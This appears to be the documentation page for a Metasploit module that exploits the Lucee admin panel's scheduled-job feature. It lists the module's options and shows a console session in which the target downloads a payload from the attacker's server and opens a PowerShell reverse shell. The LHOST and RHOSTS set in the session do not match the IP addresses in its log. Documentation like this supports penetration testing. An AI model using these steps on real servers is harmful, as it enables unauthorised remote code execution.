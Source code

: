 ## Options

### RHOSTS

Remote host to target.

### RPORT

Port being used by the Lucee admin panel. Default is 8888

### PASSWORD

The password of the administrative user. Lucee does not use a username, only a password to access the admin panel.

### TARGETURI

Target URI of the Lucee administrator panel. Default is

`/lucee/admin/web.cfm/`


### PAYLOAD_DEPLOY_TIMEOUT

Periodically, the target web server may take a moment to download and make the payload accessible. This
parameter determines how long the exploit should wait until considering the payload inaccessible.


## Scenarios
### Successful exploitation of a Windows 10 host running Lucee 5.3.10.120 for a service account shell
```
msf6 > use exploit/multi/http/lucee_scheduled_job 
[*] Using configured payload cmd/windows/generic
msf6 exploit(multi/http/lucee_scheduled_job) > set payload cmd/windows/powershell_reverse_tcp
payload => cmd/windows/powershell_reverse_tcp
msf6 exploit(multi/http/lucee_scheduled_job) > set RHOSTS 10.0.0.164
RHOSTS => 10.0.0.164
msf6 exploit(multi/http/lucee_scheduled_job) > set LHOST 10.0.0.45
LHOST => 10.0.0.45
msf6 exploit(multi/http/lucee_scheduled_job) > set PASSWORD admin123
PASSWORD => admin123
msf6 exploit(multi/http/lucee_scheduled_job) > run

[*] Started reverse TCP handler on 192.168.19.145:4444 
[+] Authenticated successfully
[*] Using URL: http://192.168.19.145:8081/W7hSRT7xJLjosBr.cfm
[+] Job W7hSRT7xJLjosBr created successfully
[+] Job W7hSRT7xJLjosBr updated successfully
[*] Executing scheduled job: W7hSRT7xJLjosBr
[+] Job W7hSRT7xJLjosBr executed successfully
[*] Attempting to access payload...
[*] Payload request received for /W7hSRT7xJLjosBr.cfm?RequestTimeout=50 from 192.168.19.131
[*] Attempting to access payload...
[*] Powershell session session 1 opened (192.168.19.145:4444 -> 192.168.19.131:53204) at 2023-02-28 19:52:46 -0600
[*] Received 500 response from W7hSRT7xJLjosBr.cfm
[+] Exploit completed.
[*] Removing scheduled job W7hSRT7xJLjosBr
[+] Scheduled job removed.
[*] Server stopped.
[!] This exploit may require manual cleanup of 'C:\lucee\tomcat\webapps\ROOT\W7hSRT7xJLjosBr.cfm' on the target
```
